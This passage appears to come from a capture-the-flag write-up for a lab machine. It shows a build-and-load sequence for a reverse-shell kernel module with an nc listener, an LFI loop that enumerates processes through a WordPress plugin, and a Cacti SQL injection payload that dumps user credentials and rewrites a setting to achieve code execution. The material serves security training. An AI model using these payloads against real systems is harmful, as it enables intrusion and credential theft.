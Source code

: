 ```
# Create Makefile
obj-m += reverseshell_module.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean



# Make file
make

# Shell 1
nc -lvnp 8888

# Shell 2
insmod reverseshell_module.ko
```

### extra
IppSec enumerated process via LFI.
```
for i in $(seq 0 2000); do echo -n "$1:"; curl monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../../../../../proc/$i/cmdline --output -;echo; done | tee pid.lst
```

And also find the backup filename searching for the directory .backup on the machine:
```
grep -Ri '\.backup' 2>/dev/null
```

<br>

#### Cacti Injection
The injection occurs on cacti/color.php on line 754.
```php
$sql_where = "WHERE (name LIKE '%" . get_request_var('filter') . "%'
```

You should do `db_qstr('%' . get_request_var('filter') . '%')` instead of `'%" . get_request_var('filter') . "%`.

As the application accept stacked queries, this can lead to remote code execution.
```
GET /cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='touch+/tmp/sqli_from_rce;'+where+name='path_php_binary';--+-

UNION SELECT 1,username,password,4,5,6,7 from user_auth;update settings set value='touch /tmp/sqli_from_rce;' where name='path_php_binary
```

